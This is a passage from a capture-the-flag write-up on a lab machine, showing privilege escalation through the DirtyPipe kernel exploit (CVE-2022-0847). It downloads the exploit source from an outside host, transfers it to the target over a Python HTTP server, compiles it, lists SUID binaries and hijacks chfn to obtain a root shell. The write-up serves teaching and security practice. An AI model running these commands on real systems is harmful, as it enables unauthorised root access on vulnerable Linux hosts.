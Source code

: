 **Hmm... Let's try the DirtyPipe kernel exploit.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# wget https://haxx.in/files/dirtypipez.c
```

**Check the target machine has `gcc` installed or not:**
```
user@774c7a0d6226:/tmp$ which gcc
/usr/bin/gcc
```

It has `gcc` installed!

**Let's transfer the exploit to there and compile it!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

user@774c7a0d6226:/usr/src/app$ wget http://10.9.0.253/dirtypipez.c -O /tmp/dirtypipez.c;cd /tmp

user@774c7a0d6226:/tmp$ gcc dirtypipez.c -o dirtypipez  
user@774c7a0d6226:/tmp$ ./dirtypipez 
Usage: ./dirtypipez SUID
```

**This exploit require a SUID sticky bit binary! Let's use `find` to find all SUID binaries!**
```
user@774c7a0d6226:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/bin/umount
/bin/su
/bin/ping
/bin/mount
```

**I'll use `/usr/bin/chfn` as an example:**
```
user@774c7a0d6226:/tmp$ ./dirtypipez /usr/bin/chfn
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami;hostname;id;ip a
root
774c7a0d6226
uid=0(root) gid=0(root) groups=0(root)
[...]
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
# 
```

I'm root! :D

# Conclusion

What we've learned:

1. Server-Side Template Injection (SSTI) in PugJS Template Enigne
2. Privilege Escalation via DirtyPipe (CVE-2022-0847) Kernel Exploit